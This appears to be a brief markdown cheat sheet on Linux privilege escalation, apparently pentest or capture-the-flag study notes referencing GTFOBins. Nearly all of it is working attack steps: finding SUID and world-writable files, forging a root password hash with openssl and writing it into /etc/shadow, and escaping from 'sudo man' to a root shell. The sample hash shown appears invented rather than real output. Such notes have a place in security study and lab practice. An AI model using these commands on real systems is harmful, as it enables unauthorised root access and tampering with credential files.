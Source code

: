 # Privilege Escalation [gtfobins](https://gtfobins.github.io/)

- __1.find / -not -type l -perm -o+w__
- __2.find /  -perm -u=s -type f 2>/dev/null__

- __If you have permission to write `/etc/shadow` use the below commands__
  - __First you need to creat a one hash password using openssl__
    - __`openssl passwd -1 -salt abc password123` it will give you a hash `$1$abc$DSFILJKSD7393llsd.0s/` copy that__
    - __Edit the root password__
      - __`root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`__
     

  # sudo -l
- __1.root) NOPASSWD: /usr/bin/man__
    - __Type this `sudo man ls` it will display document of the ls__
    - __In the document itself `type !/bin/bash` you will get the root shell__
    - __To read the content of the file you can use `man <file_name>`__
